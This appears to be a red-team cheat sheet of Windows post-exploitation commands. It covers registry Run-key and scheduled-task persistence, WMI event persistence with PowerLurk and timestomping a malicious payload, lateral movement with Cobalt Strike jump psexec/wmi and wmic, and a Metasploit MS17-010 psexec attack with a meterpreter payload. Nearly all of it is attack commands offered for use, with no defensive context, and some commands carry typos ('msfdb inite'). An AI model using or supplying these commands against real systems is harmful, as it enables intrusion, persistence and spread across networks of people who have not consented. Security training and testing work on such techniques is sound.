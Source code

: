 ````
### System Level
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v <name> /t REG_SZ /d "<path_to_executable>"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v <name> /t REG_SZ /d "<path_to_executable>"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v <name> /t REG_SZ /d "<path_to_executable>"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v <name> /t REG_SZ /d "<path_to_executable>"

````

## SCHEDULED TASK
````
schtasks /create /sc ONLOGON /tn <TaskName> /tr <Path_To_Executable>
````

## HIGH TIER PERSISTENCE WMI EVENT REGISTRATION
````
powershell-import <Path to PowerLurk.ps1>
powershell Get-WMIEvent

upload <Path to malicous payload>
timestomp <payload> kernel32.dll

### upload PowerLurk to attack platform ##
````

## LATERAL MOVEMENT - using CobaltStrike
````
jump psexec_psh <IP> <SMB Listener>
jump psexec <IP> <SMB Listener>
jump wmi <IP> <SMB Listener>

## Old School Method
upload <executable/dll>
shell copy <executable/dll> <Remote Location>
wmic /node:ComputerName process call create "cmd.exe /c <executable/dll>"
````

# SETUP METASPLOIT
````
msfdb inite 
msfconsole
````



## AUXILIARY/SCANNER/SMB/SMB_M17_010
````
1. use exploit/windows/smb/ms17_010_psexec
2. options
3. set RHOSTS <IP>
4. set payload windows/x64/meterpreter/bind_tcp
5. set LPORT <PORT NUMBER>
6. exploit -j
````
